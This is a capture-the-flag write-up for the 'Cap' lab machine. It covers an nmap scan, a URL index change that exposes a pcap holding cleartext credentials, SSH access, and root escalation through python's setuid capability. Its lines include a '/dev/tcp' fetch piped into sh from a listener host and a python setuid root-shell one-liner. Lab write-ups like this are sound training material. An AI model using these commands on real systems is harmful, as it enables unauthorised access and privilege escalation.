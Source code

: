 # Cap

### Challenge: FullPWN

### Tools: Nmap, FTP, SSH, Linpeas, Python


Nmap scan shows port 80 and port 22 are open. Maybe we can grab some credentials from the http site and login through ssh.

```console
sudo nmap -sC -sV -O -A -Pn 10.129.80.145
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-03 23:20 BST
Nmap scan report for 10.129.80.145
Host is up (0.0065s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Wed, 03 Aug 2022 22:21:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 03 Aug 2022 22:21:11 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 03 Aug 2022 22:21:12 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-title: Security Dashboard
|_http-server-header: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.92%I=7%D=8/3%Time=62EAF4D7%P=x86_64-pc-linux-gnu%r(GetRe
SF:quest,4C56,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20W
SF:ed,\x2003\x20Aug\x202022\x2022:21:11\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x201938
SF:6\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\n
SF:\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20
SF:<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\x
SF:20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\x
SF:20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=1
SF:\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image/
SF:png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<l
SF:ink\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">\
SF:n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/font
SF:-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20h
SF:ref=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=\
SF:"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x20
SF:<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.c
SF:ss\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/cs
SF:s/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOptions
SF:,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Wed,\x20
SF:03\x20Aug\x202022\x2022:21:12\x20GMT\r\nConnection:\x20close\r\nContent
SF:-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS,\x20GET,\x20
SF:HEAD\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x20
SF:400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text/
SF:html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20\
SF:x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\n
SF:\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invalid
SF:\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTSP/
SF:1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189,
SF:"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20We
SF:d,\x2003\x20Aug\x202022\x2022:21:17\x20GMT\r\nConnection:\x20close\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\r
SF:\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20F
SF:inal//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>\
SF:n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20serv
SF:er\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20che
SF:ck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/3%OT=21%CT=1%CU=31834%PV=Y%DS=2%DC=T%G=Y%TM=62EAF55E
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST11
OS:NW7%O6=M539ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT      ADDRESS
1   10.70 ms 10.10.14.1
2   10.86 ms 10.129.80.145

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 147.02 seconds
```

On the website we can see we are logged in as the user Nathan and we have a couple of different places to go. Lets start with the security snapshot.

![image](https://user-images.githubusercontent.com/105310322/183150769-dfb7ac3d-884a-4299-acf6-161cc1cc971c.png)

Here we can download a pcap file but right now it doesnt have any traffic, But if we look at the URL we can see http://10.129.110.186/data/1. If we change that 1 to a 0 we can get the previous pcap download!

![image](https://user-images.githubusercontent.com/105310322/183151068-2c3e3391-19ae-4b12-b25e-49ebe5052a9b.png)

After downloading the pcap file and opening it up in wireshark we find some cleartext credentials.

![image](https://user-images.githubusercontent.com/105310322/183151371-1ac9a8ca-d2d7-4d9f-93b5-ea69d0465110.png)

Nicely done now we can login through ssh and grab the user flag! (You can also get this flag through ftp by running ```$ get user.txt -```, however you will not be able to retrieve the root flag)

```console
─[us-dedivip-1]─[10.10.14.93]─[htb-0xrogue@pwnbox-base]─[~]
└──╼ [★]$ ssh nathan@10.129.110.186
nathan@10.129.110.186's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
Last login: Fri Aug  5 19:29:30 2022 from 10.10.14.93
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
e62962879f1dc62e87f32fe0c15f0596
```

Awesome but now we need to get the root flag, however we can't just waltz right in there. We are going to have to priveledge escalate. So lets run linpeas from Nathan's account.

First lets download it from github. (This following URL also gives good info on how to run it)

```console
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
By inputting the following commands we can get it to run (```python -m http.server 80``` is another option since linpeas SimpleHTTPServer was not wokring for me)

```console
sudo nc -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```
The following output with linpeas reveals "/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip" as our way to priviledge exscalate. (for me this was highlighted in bright yellow so its hard to miss) The following URL to hacktricks also gives good info on how to abuse the setuid capability.

```console
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities
Current env capabilities:
Current: =
Current proc capabilities:
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	0000003fffffffff
CapAmb:	0000000000000000

Parent Shell capabilities:
0x0000000000000000=

Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
Run the python script and it will give us a root shell and the flag!

```console
nathan@cap:/bin$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:/bin# ls
root@cap:/bin# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt
b6af56f563c273361dbc6236d2489cf5
```

Congratulations on PWNing this box and I hope this writeup taught you something.
